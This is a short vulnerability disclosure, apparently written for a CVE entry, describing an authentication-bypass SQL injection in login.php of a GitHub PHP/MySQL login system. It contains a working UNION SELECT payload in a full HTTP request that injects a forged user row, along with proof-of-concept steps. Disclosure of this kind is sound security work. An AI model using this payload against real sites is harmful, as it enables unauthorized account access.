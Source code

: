 # keerti1924 / PHP-MYSQL-User-Login-System - login.php SQL Injection

## Vendor Homepage:
[PHP-MYSQL-User-Login-System](https://github.com/keerti1924/PHP-MYSQL-User-Login-System)

## Impact

## Proof of Concept
Step 1: Visit the /login.php
Step 2: Open Browser Console
Step 3: Run [SQLI Auth POC](https://raw.githubusercontent.com/skid-nochizplz/skid-nochizplz/main/TrashBin/CVE/keerti1924%20PHP-MYSQL-User-Login-System/SQLI%20Auth%20POC.js)
Step 4: User will be redirected to home.php

## HTTP Request Example

```http request
POST /login.php HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

email = '%20UNION%20SELECT%201%20AS%20id%2c%20'NoChizPlz'%20AS%20username%2c%20'nochizplz%40nochizplz.com'%20AS%20email%2c%20'%242a%2412%24xkhwduBCkSl3tPhWVokC%2fOmrhboA0gxDWaVLl4uPLr2iSbXEtNdCq'%20AS%20password%20%23&password=nochizplz&login=Login
```

### Proof with Video:
![Vulnerability Proof](https://github.com/skid-nochizplz/skid-nochizplz/raw/main/TrashBin/CVE/keerti1924%20PHP-MYSQL-User-Login-System/SQLI%20Auth%20Proof.mov)

## Remediation

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)